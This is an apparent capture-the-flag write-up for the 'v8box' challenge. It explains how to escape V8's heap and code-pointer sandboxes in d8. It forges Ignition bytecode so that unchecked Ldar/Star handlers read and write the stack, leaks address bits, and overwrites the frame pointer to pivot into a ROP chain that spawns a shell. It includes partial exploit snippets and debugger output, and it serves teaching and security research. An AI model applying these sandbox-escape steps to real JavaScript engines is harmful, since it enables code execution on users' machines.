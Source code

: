 # Writeup for v8box

## Challenge description

In this challenge we are given arbitrary JavaScript code execution in d8. The goal is to read a flag file with an unknown name. Being able to read arbitrary files from inside v8 is not enough because we don't know where the flag file is located. Instead we have to get arbitrary code execution to get a shell and use ls to find the flag and read it.

V8 is compiled without the JavaScript and WebAssembly JITs and with the V8 sandbox and code pointer sandboxing enabled. The memory corruption API is also enabled, which lets JavaScript code read and write arbitrary data inside the JavaScript heap.

Because the V8 sandbox is enabled, having control of memory inside the sandbox doesn't directly give us arbitrary read/write everywhere in the process's memory or arbitrary code execution. The goal of this challenge is to find a bypass for the sandbox. The sandbox feature in v8 is still a work in progress and is not yet considered a security boundary so several bypasses exist.

In addition to the V8 sandbox the challenge also enables a new V8 security feature, [code pointer sandboxing](https://source.chromium.org/chromium/_/chromium/v8/v8.git/+/ee48926106051afb784d8f39c31aab0d2a04823f). Without code pointer sandboxing, code objects contain an unsandboxed pointer that is called when the code is executed. Overwriting one of these pointers is an easy way to get RIP control. With this feature, code pointers in the sandbox are replaced with indices in a code pointer table, which makes sure that all control flow transfers always jump to a valid entry point.

The challenge also introduces another patch which makes the start of every memory chunk on the V8 heap read-only. The JavaScript heap is made of a series of memory chunk, and v8 stores a number of uncompressed pointers to objects with Vtables at the beginning of each chunk. Overwriting these pointers also easily leads to code execution so in the challenge they're read-only. Unfortunately it's not possible to leave the chunk headers read-only forever because the garbage collector and other parts of the runtime occasionally need to write to them. Therefore the patch introduces some code that flips the protection bits of each page back and forth whenever the GC needs to run. Since V8 has a concurrent GC it might be possible to bypass this patch by writing to the pointers while they're temporarily writable, but the official solution takes a different approach.

## Intended solution

One of the more interesting objects that still lives inside the V8 sandbox is JavaScript bytecode. The interpreter treats bytecode as trusted, and unlike the JIT, the bytecode interpreter cannot be disabled. Ignition, V8's JavaScript interpreter defines a [large list of opcodes](https://source.chromium.org/chromium/chromium/src/+/refs/heads/main:v8/src/interpreter/bytecodes.h;l=45;drc=20911ffd8a0e1636801ddf303c17375fdedf9c83): some of these are simple operations such as loading or storing a value into the interpreter's registers, and others implement complex JavaScript operations.

Ignition holds the temporary values of the current JavaScript function in a set of "registers" whose values are stored on the stack. It also has a special "accumulator" register whose value is held in a machine register and therfore can be accessed more quickly. On x86_64, Ignition stores the value of the accumulator in rax.

Ignition defines several opcodes that move values between the accumulator and the other registers. For example [`Ldar` loads a value from a register into the accumulator](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/interpreter/interpreter-generator.cc). If we look at the implementation we can see that there are absolutely no bounds checks, so if we can control the bytecode Ldar will happily load data from anywhere on the stack:

```
pwndbg> disassemble Builtins_LdarHandler
Dump of assembler code for function Builtins_LdarHandler:
                                                                   ; r12 points to the bytecode
                                                                   ; r9 is the Ignition PC
   0x0000000000f9b740 <+0>:   movsx  rbx,BYTE PTR [r12+r9*1+0x1] ; Load the first operand
   0x0000000000f9b746 <+6>:   mov    rdx,rbp
   0x0000000000f9b749 <+9>:   mov    rbx,QWORD PTR [rdx+rbx*8]   ; Load the data from the stack
   0x0000000000f9b74d <+13>:	add    r9,0x2                      ; Dispatch the next instruction
   0x0000000000f9b751 <+17>:	movzx  edx,BYTE PTR [r9+r12*1]
   0x0000000000f9b756 <+22>:	mov    rcx,QWORD PTR [r15+rdx*8]
   0x0000000000f9b75a <+26>:	mov    rax,rbx                     ; Move the result into rax
   0x0000000000f9b75d <+29>:	jmp    rcx
   ```

Similarly the `Star` opcode [stores the accumulator value into a register](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/interpreter/interpreter-generator.cc;l=139;drc=60739af06eea138a8f9b14210878960e4f6494d1), again without any bound checks:

```
pwndbg> disassemble Builtins_StarHandler
Dump of assembler code for function Builtins_StarHandler:
                                                                   ; r12 points to the bytecode
                                                                   ; r9 is the Ignition PC
   0x0000000000f9bd00 <+0>:   movsx  ebx,BYTE PTR [r12+r9*1+0x1] ; Load the first operand
   0x0000000000f9bd06 <+6>:   mov    rdx,rbp
   0x0000000000f9bd09 <+9>:   movsxd rbx,ebx
   0x0000000000f9bd0c <+12>:	mov    QWORD PTR [rdx+rbx*8],rax   ; Store rax to the stack
   0x0000000000f9bd10 <+16>:	add    r9,0x2                      ; Dispatch the next instruction
   0x0000000000f9bd14 <+20>:	movzx  ebx,BYTE PTR [r9+r12*1]
   0x0000000000f9bd19 <+25>:	mov    rcx,QWORD PTR [r15+rbx*8]
   0x0000000000f9bd1d <+29>:	jmp    rcx
```

These two opcodes give us read/write on the stack which is more than enough to get arbitrary code execution. There is just one problem, which is that JavaScript values are only 32 bits on the heap.

When pointer compression (which is a prerequisite for heap sandboxing) is enabled, V8 stores all JavaScript values in 32 bits. There are only two types of values in the engine: a value is either a Smi (a 31-bit signed integer) or a pointer to another object on the heap. V8 distinguishes between the two types by looking at the least significant bit, which is 0 for Smis and 1 for pointers. This is a problem for us because even though we can read a 64-bit value into rax with `Ldar`, if we return that value from the function V8 will discard the top 32 bits. For example a function with this bytecode

```js
function hax1(a, b) {
    return a + b + 1;
}

// Edit hax1's bytecode
// Ldar some value
emit(0xb);
emit(0x14);
// ret
emit(0xaa);

const leak = hax1();
console.log(hex(leak));
```

and the following data on the stack

```
pwndbg> tele $rbp
00:0000│ rbp 0x7fffffffc858 —▸ 0x7fffffffc8f0 —▸ 0x7fffffffc918 —▸ 0x7fffffffc980 —▸ 0x7fffffffcad0 ◂— ...
  [....]
14:00a0│  0x7fffffffc8f8 —▸ 0x5555563a881c (Builtins_JSEntryTrampoline+92) ◂— mov rsp, rbp
```

prints this
```
0x2b1d440e
```

which is 0x563a881c (the bottom 32-bits of the value on the stack) shifted left by 1 (because of Smi tagging).

The same problem appears with storing. We can't pass a fully-controlled 64-bit value to the interpreter in a function argument because it's either going to be a SMI (top 32 bits are 0) or a pointer (top 32 bits are set to the base of the heap sandbox). So we will have to find a way around that.

## Getting control of the stack

Even though we can't directly pass a fully controlled 64-bit value to the interpreter, we can still pass it a pointer to a JavaScript object, which will be expanded to a 64-bit pointer in the interpreter's registers. For example:

```js
function hax1(a, b) {
    return a + b + 1;
}

// Edit hax1's bytecode
// Ldar the first argument
emit(0xb);
emit(0x3);
// ret
emit(0xaa);

let obj = {};
%DebugPrint(obj);
hax1(obj);
```

```
DebugPrint: 0x3e2400047751: [JS_OBJECT_TYPE]
 - map: 0x3e2400182fc9 <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x3e2400183115 <Object map = 0x3e24001827d1>
 - elements: 0x3e2400000219 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x3e2400000219 <FixedArray[0]>
 - All own properties (excluding elements): {}
```

```
pwndbg> tele $rbp
00:0000│ rbp 0x7fffffffc858 —▸ 0x7fffffffc8f0 —▸ 0x7fffffffc918 —▸ 0x7fffffffc980 —▸ 0x7fffffffcad0 ◂— ...
  [....]
03:0018│     0x7fffffffc870 —▸ 0x3e2400047751 ◂— 0x190000021900182f
```

We can see here that indeed the address of obj gets expanded to a full 64-bit pointer in the interpreter's registers. So even though we can't fully control the value of the register, we can still make it point to an address which we control.

One way to exploit this and get a fully controlled stack is to target the frame pointer, which is at offset 0.

```js
// Ldar the first argument
emit(0xb);
emit(3);

// star frame pointer
emit(24);
emit(0);

// ret
emit(0xaa);
hax1(obj);
```

If we run that we can see that it indeed crashes with `rbp` pointing to our object. When the function returns it will reload rsp from rbp and make rsp point to controlled memory. We can use this to make rsp point to a TypedArray which contains a ROP chain and get code execution that way.

## Getting leaks

Since we can't directly leak 64-bit values, we also can't just read a return address from the stack to figure out where in memory d8 is loaded. However the part of the address randomized by ASLR is mostly in the lower half so getting the lower 32 bits of a code pointer already gives us quite a lot of information. About 8 bits of the address are still unknown, so we can either brute force them or find some other way to leak the top bits.

In the reference exploit I used the object pointers in the chunk headers which I discussed in the challenge description. Even though we can't write to these pointers anymore, we can still read their value. These are pointers to the glibc heap, whose top 32 bits are usually the same or almost the same as the top 32 bits of d8's address. By combining these with the previous leak we can recover the full address of d8 with high reliability.

Now that we have a leak of a d8 address and control of the stack we can simply construct a ROP chain that calls execve("/bin/sh") and use the shell to solve the challenge.
